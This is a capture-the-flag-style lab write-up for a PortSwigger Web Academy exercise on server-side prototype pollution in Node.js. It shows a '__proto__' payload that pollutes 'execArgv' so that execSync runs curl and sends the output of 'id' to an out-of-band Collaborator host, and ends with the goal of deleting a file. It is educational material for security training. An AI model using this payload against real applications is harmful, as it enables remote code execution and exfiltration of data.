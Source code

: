 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/server-side-prototype-pollution/lab-8/"}
---
```



---
## Objective: Get RCE & Delete `/home/carlos/morale.txt`

In this lab, we already have escalated privileges, giving us access to admin functionality. We can log in to our account with the following credentials: `wiener:peter`

Inspect the request in Repeater

![Pasted image 20250402004554.png](/img/user/Images/Pasted%20image%2020250402004554.png)

Now, we will try the `json spaces` override technique. We will attempt to add the `__proto__` as an object that has the `json spaces` property. I this case I will be using `20`

```json
"__proto__":{
	"json spaces": 20
}
```

Send the request and check the Raw Response

![Pasted image 20250402192520.png](/img/user/Pasted%20image%2020250402192520.png)

 Great, it worked. Now in the 'Admin Panel' there is a button to Run maintenance jobs
 ![Pasted image 20250402202002.png](/img/user/Pasted%20image%2020250402202002.png)

Checking the request it made on Burp reveals that its doing some system-level functions like DB and Filesystem cleanup. These are good candidates that spawn child processes that we can use to get RCE

![Pasted image 20250402202059.png](/img/user/Pasted%20image%2020250402202059.png)

What we can do from here first pollute the `execArgv` property in the `child_process` module and call execSync to our Burp Collaborator 


```json
"__proto__":{
	"execArgv":[
		"--eval=require('child_process').execSync('curl https://xvwj31prbz2zljp52qbqjulgg7myapye.oastify.com -d $(id)')"
	]
}
```

In the command above, I use the `-d` flag to send data which is the bash command I want to execute, `id`

![Pasted image 20250402202719.png](/img/user/Pasted%20image%2020250402202719.png)

Send the request and Run maintenance jobs to spawn another child process that executes our payload

Check the Collaborator tab for incoming polls

![Pasted image 20250402202934.png](/img/user/Pasted%20image%2020250402202934.png)

And there it is, we received output from our payload. RCE successful! Now, just delete `/home/carlos/morale.txt` and we solved the lab!




